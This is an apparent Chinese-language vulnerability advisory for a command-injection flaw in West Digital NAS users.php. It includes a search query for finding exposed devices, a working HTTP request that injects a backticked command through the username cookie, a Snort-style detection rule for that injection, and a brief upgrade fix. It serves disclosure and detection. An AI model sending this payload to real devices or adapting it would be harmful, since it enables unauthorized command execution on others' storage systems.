

# 西部数码 NAS users.php 存在命令执行漏洞

西部数码 NAS users.php 存在命令执行漏洞

# 影响版本

目前已发布版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   **icon_hash=&quot;-1074357885&quot; &amp;&amp; header=&quot;X-Powered-By: PHP/5.4.16&quot;**

**POC/EXP：**

**step1**  命令执行

```
GET /web/php/users.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Cookie: isAdmin=1;username=a" `sleep 5` "


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"西部数码NAS - /web/php/users.php Cookie username 命令执行漏洞 (反引号命令注入)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/web/php/users.php";
        fast_pattern;
    http.header;
        content:"Cookie"; nocase;
        content:"username="; nocase; distance:0;
        content:"`"; distance:0; within:20;
        content:"sleep"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "西部数码NAS",
        vulnerability_type "Remote Command Execution (Command Injection)",
        severity "critical";
    classtype:web-application-attack;
    sid:1000806;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
